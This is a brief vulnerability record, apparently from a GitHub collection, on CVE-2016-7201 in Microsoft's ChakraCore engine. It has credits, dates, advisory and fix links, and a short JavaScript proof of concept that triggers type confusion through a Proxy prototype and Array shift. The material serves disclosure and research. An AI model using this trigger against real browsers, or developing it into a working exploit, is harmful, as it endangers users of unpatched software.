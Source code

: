 # CVE-2016-7201

- Report: Sep 2016
- Fix: Nov 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var a = new Array(0x11111111, 0x22222222, 0x33333333, 0x44444444, 0x12121212, 0x23232323, 0x12345670, 0x7777);

var handler = {
    getPrototypeOf: function(target, name){
	return a;
    }
};

var p = new Proxy([], handler);
var b = [{}, [], "natalie"];

b.__proto__ = p;
b.length = 4;

a.shift.call(b);
// b[2] is type confused
```

## Refernece

- [Microsoft](https://technet.microsoft.com/library/security/ms16-129)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=945)
- [Exploit by Theroi](https://github.com/theori-io/chakra-2016-11)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/55358e3c44c0ad83eb3b6e5a0b88d88a591afaa2#diff-49bb5a3c5aa249e3dcefd245e91df5f7R10209)
